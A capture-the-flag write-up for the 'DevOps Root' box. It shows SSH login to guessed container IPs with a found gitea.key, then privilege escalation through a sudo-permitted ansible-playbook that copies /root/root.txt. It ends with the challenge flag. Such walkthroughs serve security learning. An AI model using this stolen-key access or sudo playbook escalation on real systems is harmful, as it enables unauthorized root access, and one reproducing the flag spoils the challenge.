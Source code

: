 # DevOps Root

### Category

Box

### Description

Can you find the **root.txt flag** on the box ?

IP : **XXX.XX.XX.XX** (same as before)

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

Once you are on the gitea docker, you will find a **gitea.key**. You can find your docker internal IP with this command :

```
@jenkins $ hostname -I
172.27.0.1
```

So know you can try to log in to gitea by guessing his IP address.

```
@jenkins $ ssh git@172.27.0.2 -i gitea.key
Not working
@jenkins $ ssh git@172.27.0.3 -i gitea.key
Not working
@jenkins $ ssh git@172.27.0.4 -i gitea.key
@gitea $
```

If you do `sudo -l` you can see that you can execute `ansible-playbook` with `sudo`.
Let's create a malicious playbook.

```yaml
---
- name: Privesc
  hosts: localhost
  gather_facts: no

  tasks:
    - name: Flag
      shell: cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt 
```

Now you can read the flag :)

```
@gitea $ cat /tmp/root.txt
Hero{ce4e994cb477dec9b1ea876db647c562}
```

### Flag

Hero{ce4e994cb477dec9b1ea876db647c562}